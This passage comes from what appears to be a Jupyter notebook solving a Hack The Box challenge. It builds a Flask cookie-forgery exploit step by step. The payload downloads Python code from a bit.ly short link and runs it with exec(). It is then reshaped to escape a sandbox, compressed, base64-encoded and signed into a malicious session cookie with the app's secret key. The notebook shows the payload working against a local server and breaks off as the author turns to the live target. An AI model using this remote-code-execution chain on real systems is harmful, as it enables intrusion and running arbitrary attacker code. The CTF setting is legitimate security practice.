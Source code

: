     http://bit.ly/3iLzLda


Recall that we have a procedure to transform payloads for a sandboxed environment. Therefore we write the statement as we would do in case of a normal `exec`.


```python
pl_sleep_from_remote ="""import urllib as u;exec(u.urlopen('https://bit.ly/3iLzLda').read())"""
```

And then apply the transformation to make it execute in a restricted environment.


```python
pl_sleep_from_remote_sandbox = make_a_statement_for_exec_consistent_with_sandbox(pl_sleep_from_remote)
```

We compress and encode it in order to send!


```python
pl_sleep_remote_encoded = make_the_payload_using_base64_and_zlib(pl_sleep_from_remote_sandbox)
```


```python
evil_cookie = from_payload_to_cookie_for_flask(pl_sleep_remote_encoded,secret_key,debug_recipe=True)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjUsKwzAMRK8isrENxSl0l14hNwjByI5CBY4d/IF+6N3rZNXd8N5oRE9ysus63vaYCtTkPVvADPVOh6q6obhTkOJRyp6HvrdctH/1Nx7f44JC6US4SKXayuUjjLGVfeGQjRHD5GCNCRxwAKm0Mc5jbqYli5nOkKs9KTUuFfAKwmERx4lrOuDWejBP1/lY2OJSPen/N1/1A+fCQvQ="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 290


Try it on the local app at first.


```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server2
    Using the url: http://173.17.0.3:1337



```python
get_response_from_the_app_using_cookie(url,evil_cookie)
```




    <html><body><p>render_template('index.html')</p></body></html>



It works for the local app. We test for HTB.


```python
url = get_url_to_target()
```
